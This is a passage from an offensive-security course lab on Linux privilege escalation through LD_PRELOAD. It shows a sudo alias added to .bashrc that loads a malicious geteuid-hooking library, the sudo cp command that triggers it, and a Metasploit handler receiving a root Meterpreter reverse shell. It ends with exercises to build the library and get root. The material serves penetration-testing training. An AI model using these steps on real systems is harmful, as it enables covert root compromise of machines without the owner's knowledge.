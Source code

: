 ```
offsec@linuxvictim:~$ unset LD_PRELOAD
```

> Listing 70 - Clearing LD\_PRELOAD

Now that we've got it working, let's talk about privilege escalation with this method.

As we mentioned previously, the dynamic linker ignores _LD\_PRELOAD_ when the user's effective UID (EUID) does not match its real UID, for example when running commands as sudo. We might be lucky and have _env\_keep+=LD\_PRELOAD_ set in /etc/sudoers, but it's not likely. The _env\_keep_ setting specifically allows certain environment variables to be passed into the sudo session when calls are made. By default this is turned off.

We could try our previous approach of defining a sudo alias for the user, but a quick test indicates that our code isn't executed. In this case, we need to explicitly set _LD\_PRELOAD_ when calling sudo, which we can do in the alias in .bashrc.

```
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```

> Listing 71 - Setting the sudo alias

Note that if we were to execute this attack in the normal user's context, we would want to set the environment variable in the user's .bashrc or .bash\_profile, similar to what we did with _LD\_LIBRARY\_PATH_.

After reloading our .bashrc file as we did before with source, we can run the cp command again.

```
offsec@linuxvictim:~$ sudo cp /etc/passwd /tmp/testpasswd
HACK: returning from function...
```

> Listing 72 - Running our command with sudo

Next, we check our Metasploit console and find that we've received a session as _root_.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.120:1337 
[*] Sending stage (3012516 bytes) to 192.168.120.46
[*] Meterpreter session 9 opened (192.168.119.120:1337 -> 192.168.120.46:39464) at 2020-07-29 11:16:07 -0400

meterpreter > getuid
Server username: no-user @ linuxvictim (uid=0, gid=0, euid=0, egid=0)
```

> Listing 73 - Successfully received a root shell

Excellent! We've escalated privileges and our victim is completely unaware.

As demonstrated, _LD\_PRELOAD_ can be an effective exploitation method in certain scenarios.

**Exercises**

1. Compile a malicious library file to hook the _geteuid_ function. Load the library with _LD\_PRELOAD_ and get code execution using cp.
2. Get a root shell using the above malicious library by creating a sudo alias.
